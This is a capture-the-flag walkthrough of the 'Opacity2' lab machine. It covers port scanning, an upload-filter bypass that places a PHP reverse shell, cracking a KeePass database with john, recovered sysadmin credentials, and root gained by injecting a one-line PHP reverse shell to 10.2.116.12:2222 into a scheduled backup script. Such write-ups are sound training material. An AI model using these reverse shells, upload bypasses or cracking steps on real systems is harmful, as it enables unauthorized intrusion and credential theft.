

# Opacity2

Nmap found a couple of open ports<br>
```
22/tcp   open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 4.6.2
445/tcp  open     netbios-ssn Samba smbd 4.6.2
3546/tcp filtered unknown
```

This is what we got when we got to the port 80<br>
<br>

I checked out the `smb` thing and it looks like we do not have any access.<br>
<br>
Most likely it wants us to do web exploitation.<br>
Using `ffuf` I found a page called cloud on the server.<br>
<br>
I played with it for a couple of minutes trying uploading different things and putting different payloads. I set up an nc listener and my main goal was to upload a reverse-shell to the server. Soon I realized that I can upload whatever I want to the server as soon as I put `>.png` at the end of the link. So I set `python http server` got a simple reverse-shell, uploaded it to the server and accessed in http://opacity2.thm/cloud/images/shell.php and got a reverse-shell.<br>
However, current user could do literally nothing. Checking different folders on the system I found an interesting file: `/opt/dataset.kdbx`<br>
I started a `python3 http.server` and downloaded the file. Googling research I found that this is a file of program called `keepass` which is a password manager. Then I used john the ripper to get the hash and crack it.
```
keepass2john dataset.kdbx > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Here is what I got
```
741852963        (dataset) # keepass
```
Then, I installed `KeePass2` to my machine, opened the file with the password that `john` found for me and got sysadmin's credentials.
```
sysadmin:Cl0udP4ss40p4city#8700
```
That is how we got our first flag.<br>

## Privilege Escalation
Besisdes the flag there is a folder called `scripts` and there we got a folder `lib` and `script.php`. Reading `script.php`, we can suppose that it is scheduled to run periodicly, and also there are two interesting lines for us:
```
...
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
...
```
From the first line we know that the script executes another script called `backup.inc.php` in the `lib` folder.<br>
And from the second line we know that the backups are saved to `/var/backups/backup.zip`.<br>
I went to the `lib` folder and it looked like a did not have permissions to change any files. However, if you remember there is our `backup.zip` which contains basicly the same things that folder `scripts` does. So I went to `/var/backups` and did:
```
unzip backup.zip -d /home/sysadmin/scripts
```
It said that id couldn't replace `script.php` but that's okay. When I visided the `lib` folder again I had permissions to change files, so I changed `backup.inc.php` and added there the following line:
```
$sock=fsockopen("10.2.116.12",2222);exec("sh <&3 >&3 2>&3");
```
which is a simple *php reverse-shell*. Also I set up an nc listener on port 2222,	 and in minute we got our root shell. :smile: